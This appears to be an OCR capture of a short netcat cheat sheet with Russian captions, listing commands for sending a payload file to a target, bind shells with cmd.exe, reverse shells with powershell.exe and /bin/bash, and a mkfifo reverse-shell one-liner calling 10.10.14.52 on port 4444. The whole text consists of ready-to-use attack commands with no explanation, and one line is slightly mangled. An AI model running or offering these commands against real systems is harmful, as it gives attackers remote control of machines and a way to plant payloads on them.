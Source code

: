 nc -e powershell.exe REMOTE 4444  
nc -lvp 4444  
  
nc -nlvp 4444 > payload.exe  
nc -nv TARGET 4444 < payload.exe  
^Передача файла по сети  
  
nc -nlvp 4444 -e cmd.exe  
nc -nv WIN_IP 4444  
^Bind shell  
  
nc -nv NIX_IP 4444 -e /bin/bash  
nc -nc -nlvp 4444  
^Reverse shell  
  
  
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.52 4444 > /tmp/f